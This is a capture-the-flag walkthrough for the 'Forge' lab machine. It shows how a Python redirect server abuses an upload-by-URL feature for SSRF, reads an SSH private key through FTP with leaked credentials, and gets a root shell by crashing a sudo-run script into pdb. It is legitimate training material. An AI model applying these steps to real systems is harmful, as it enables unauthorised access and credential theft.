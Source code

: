 ![FORGE](banner.png)

```
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open     http    Apache httpd 2.4.41
Service Info: Host: 10.129.216.84; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

So there is a webpage at 80 and a filtered ftp. 
On 80 we can upload some files but we couldn't find something of interest.

With
```
┌──(kali㉿kali)-[~/Downloads]
└─$ ffuf -c -w ~/Downloads/Subdomain.txt -u http://forge.htb/ -H "Host: FUZZ.forge.htb" -fw 18 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://forge.htb/
 :: Wordlist         : FUZZ: /home/kali/Downloads/Subdomain.txt
 :: Header           : Host: FUZZ.forge.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response words: 18
________________________________________________

admin                   [Status: 200, Size: 27, Words: 4, Lines: 2]
:: Progress: [649649/649649] :: Job [1/1] :: 566 req/sec :: Duration: [0:09:46] :: Errors: 0 ::
```
we discovered a subdomain: `admin.forge.htb`.
That site tells us that we must be localhost to get access. 
We can abuse the other upload page for that.
For this we need to redirect the upload functionality back to the admin page. You can use a script like this:
```python3
#!/usr/bin/env python3

import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 2:
    print("""
Usage: {} <port_number> <url>
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.send_response(302)
       self.send_header('Location', sys.argv[2])
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

Now you can read files via ftp with an upload calling your host while the redirect is set up like:
```
sudo python3 redirect.py 1337 "http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123\!@<target>/"
```

## User

As the home directory contains the `.ssh` we can download its id_rsa like:
```
sudo python3 redirect.py 1337 "http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123\!@<target>/.ssh/id_rsa"
```
You can download the rsa key by uploading via url from your attacker machine. With the given link to the "image" you can read or curl the rsa key.
With `ssh -i <key> user@forge.htb` you will get user access.


## Root

Running `sudo -l` you'll get the following:

```
Matching Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```

So we can run that `remote-manage.py` as root.
The script looks like:
```python3
#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
                clientsock.send(b'Bye\n')
                break
except Exception as e:
    print(e)
    pdb.post_mortem(e.__traceback__)
finally:
    quit()
```

As you can see it will drop into pdb when it gets an error.
We can abuse this by running the script as root `sudo /usr/bin/python3 /opt/remote-manage.py`, setting up another ssh connection, running netcat to the given port and enter some random stuff. 
Now the connection where we runned the script is dropped into pdb. 
As we run this with root we can escape with 
```
import os; 
os.system("/bin/sh")
```
to get a root shell.
